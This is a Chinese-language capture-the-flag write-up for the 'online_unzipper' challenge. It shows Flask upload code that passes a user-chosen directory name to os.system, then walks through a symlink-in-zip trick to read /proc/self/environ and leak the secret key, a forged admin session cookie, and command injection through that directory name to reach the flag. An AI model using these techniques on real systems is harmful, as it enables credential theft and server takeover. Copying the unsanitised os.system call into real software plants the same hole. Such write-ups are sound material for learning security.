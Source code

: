 N1CTF Junior 3rd 2/2(Jeopardy) 复现

#### online_unzipper

```
online_unzipper
```

核心代码

```python
@app.route("/upload", methods=["GET", "POST"])
def upload():
    if "username" not in session:
        return redirect(url_for("login"))

    if request.method == "POST":
        file = request.files["file"]
        if not file:
            return "未选择文件"

        role = session["role"]

        if role == "admin":
            dirname = request.form.get("dirname") or str(uuid.uuid4())
        else:
            dirname = str(uuid.uuid4())

        target_dir = os.path.join(UPLOAD_FOLDER, dirname)
        os.makedirs(target_dir, exist_ok=True)

        zip_path = os.path.join(target_dir, "upload.zip")
        file.save(zip_path)

        try:
            os.system(f"unzip -o {zip_path} -d {target_dir}")
        except:
            return "解压失败，请检查文件格式"

        os.remove(zip_path)
        return f"解压完成！<br>下载地址: <a href='{url_for('download', folder=dirname)}'>{request.host_url}download/{dirname}</a>"

    return render_template("upload.html")
```

发现admin可以直接将保存名设置为文件名，这里可以导致文件名的命令注入。但是注册后默认是user，考虑篡改session来改成admin。

```python
app.secret_key = os.environ.get("FLASK_SECRET_KEY", "test_key")
```

想要篡改session要先获取```flask secret_key```，发现可以从环境变量```FLASK_SECRET_KEY```中获取，故可以找方法尝试访问```/proc/self/environ```

通过学习后发现可以构造带有指向```/proc/self/environ```的符号链接文件并压缩上传

```shell
ln -s -T /proc/self/environ my_link_file
zip -y my_archive.zip my_link_file
```

上传```my_archive.zip```后可以下载```my_link_file```，读取到了环境变量

```tex
HOSTNAME=79556ae2b6cf HOME=/root GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_SHA256=8fb5f9fbc7609fa822cb31549884575db7fd9657cbffb89510b5d7975963a83a FLASK_APP=app.py FLASK_RUN_HOST=0.0.0.0 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 FLASK_SECRET_KEY=test PYTHON_VERSION=3.11.13 PWD=/app FLAG= 
```

得到```FLASK_SECRET_KEY=test```，现在可以构造session来修改成admin权限，使用flask_session_cookie_manager工具来伪造session

```cmd
python .\flask_session_cookie_manager3.py encode -s 'test' -t "{'role':'admin','username':'123'}"
eyJyb2xlIjoiYWRtaW4iLCJ1c2VybmFtZSI6IjEyMyJ9.aMldaQ.CkPpAM5fpdijLJIUVLHAedFpVGk
```

得到的session改完后，刷新发现变成了admin了，现在可以构造文件名来将flag移动到能够读取的```/uploads/```下来读取flag（至于为什么要移动到/upload/下，是因为这个文件夹存在且其下面的文件可以被读取，下载附件可以看到容器中是有```/uploads/```这个文件夹的）

在dirname后拼接命令，可以让

```python
os.system(f"unzip -o {zip_path} -d {target_dir}")
```

执行的时候拼接的命令

![image-20250916214542711](./image/image-20250916214542711.png)

（这里先创建```/uploads/123/```文件夹，才能够move）

![image-20250916214514358](./image/image-20250916214514358.png)

最后访问```/downloads/123```，可以下载flag

![image-20250916214647724](./image/image-20250916214647724.png)

最后这个命令拼接构造尝试了好久，是根据docker desktop里面的命令执行返回信息来进行进一步修改的，正式比赛的时候需要最大化利用题目给的题目源码和docker，并且可以适当修改代码来获取debug信息，便于自己更好地理解。